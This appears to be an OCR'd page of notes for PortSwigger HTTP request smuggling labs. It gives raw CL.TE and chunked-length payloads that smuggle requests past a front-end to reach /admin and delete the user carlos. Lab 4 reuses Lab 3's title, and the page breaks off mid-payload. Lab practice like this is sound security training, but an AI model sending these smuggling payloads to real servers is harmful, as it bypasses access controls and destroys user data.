 Lab 3 : 
	Exploiting HTTP request smugglinghttps://portswigger.net/web-security/request-smuggling to bypass front-end security controls, CL.TE vulnerability
 
Technique : 
	smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos
	
Exploit: 1

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=

Exploit: 2

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=

Lab 4 : 
	Exploiting HTTP request smugglinghttps://portswigger.net/web-security/request-smuggling to bypass front-end security controls, CL.TE vulnerability
 
Technique : 
	smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos
	
Exploit: 1

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
